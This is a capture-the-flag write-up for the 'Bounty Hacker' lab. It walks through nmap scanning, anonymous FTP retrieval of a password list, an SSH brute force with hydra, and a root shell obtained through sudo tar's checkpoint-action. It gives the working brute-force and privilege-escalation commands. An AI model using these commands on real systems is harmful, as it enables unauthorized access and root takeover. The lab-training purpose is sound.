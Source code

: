 # Bounty Hacker WriteUp

## Reconnaissance

Using nmap, we'll find 3 ports:
- 21/TCP with ftp access, allow login as Anonymous.
- 22/TCP with ssh access.
- 80/TCP with http access.

access port 22 using ftp and we'll find two files:
1. locks.txt
2. task.txt

task.txt contains:
```txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
while the locks.txt file contains:
```txt
- rEddrAGON
- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te
- ReddRA60N
- R3dDrag0nSynd1c4te
- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te
- R3Dr4gOn2044
- RedDr4gonSynd1cat3
- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n
- reddRAg0N
- REddRaG0N5yNdIc47e
- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357
- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE
- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te
- RedDr@gonSyn9ic47e
- REd$yNdIc47e
- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3
- r3ddr@g0N
- ReDSynd1ca7e
```
looks like it was some kind of password


## Bruteforce SSH Access
now let's try to access port 22 with the password we got. i make a userslist to bruteforce both users and passwords using hydra(while actually I've got lin as the task writer :/)

```sh
sudo hydra -L userlist.txt -P locks.txt ssh://[Machine_IP]

#or

sudo hydra -l lin -P locks.txt ssh://[Machine_IP] #should work too
```

then we'll get the access through ssh as lin

in lin home we'll find the first flag which is **user.txt**

## Privilege Escalation
Now our final task is doing a Privilege Escalation. Enter

```sh
sudo -l
```

So we'll get list of command we able to do with ```sudo```.

after that, we'll find out that we could do command ```tar``` with sudo. so, I went through GTFObin to find how we can spawn a shell with root access:
```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
It will spawn a shell wiht root access, therefore, we'll get the last flag which is **root.txt**
